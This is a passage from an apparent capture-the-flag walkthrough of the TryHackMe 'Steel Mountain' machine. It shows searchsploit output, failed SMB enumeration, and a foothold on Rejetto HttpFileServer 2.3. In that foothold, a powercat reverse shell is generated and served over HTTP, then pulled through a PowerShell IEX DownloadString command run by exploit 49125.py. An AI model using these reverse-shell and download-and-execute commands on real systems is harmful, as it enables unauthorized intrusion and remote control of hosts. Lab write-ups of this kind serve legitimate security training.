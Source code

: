 Try to find public exploit for this service.

```
┌──(Hades㉿10.11.32.198)-[1.9:27.7]~
└─$ searchsploit HttpFileServer 2.3
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)  | windows/webapps/49125.py
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### Server Message Block

In SMB service, using `smbmap` and `smbclient` to enum, but cannot authentication.

```
### SMB Enumeration (445) ############################
smbmap -H 10.10.106.253 -u guest

[!] Authentication error on 10.10.106.253
smbclient -L 10.10.106.253
session setup failed: NT_STATUS_ACCESS_DENIED
```

## Foothold

### Rejetto HttpFileServer RCE

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/tryhackme/steelmountain)

Using powercat to create file shell.ps1

```
PS <snip> cp /home/kali/payloads/tools/powercat.ps1 .
PS <snip> . ./powercat.ps1
PS <snip> powercat -c 10.11.32.198 -p 443 -e cmd.exe -g > shell.ps1
```

Open httpserver in kali machine using python3

```
┌──(Hades㉿10.11.32.198)-[1.9:26.8]~/walkthrough/tryhackme/steelmountain
└─$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.232.100 - - [10/Apr/2021 01:07:07] "GET /shell.ps1 HTTP/1.1" 200 -
```

Execute file `49125.py` to download and run file shell.ps1

```
┌──(Hades㉿10.11.32.198)-[1.9:27.2]~/walkthrough/tryhackme/steelmountain
└─$ cmd="powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.32.198/shell.ps1')"

┌──(Hades㉿10.11.32.198)-[1.9:27.2]~/walkthrough/tryhackme/steelmountain
└─$ python3 49125.py 10.10.232.100 8080 "$cmd"                                                                   
http://10.10.232.100:8080/?search=%00{.+exec|powershell.exe%20IEX%20%28New-Object%20System.Net.WebClient%29.DownloadString%28%27http%3A//10.11.32.198/shell.ps1%27%29.}
```
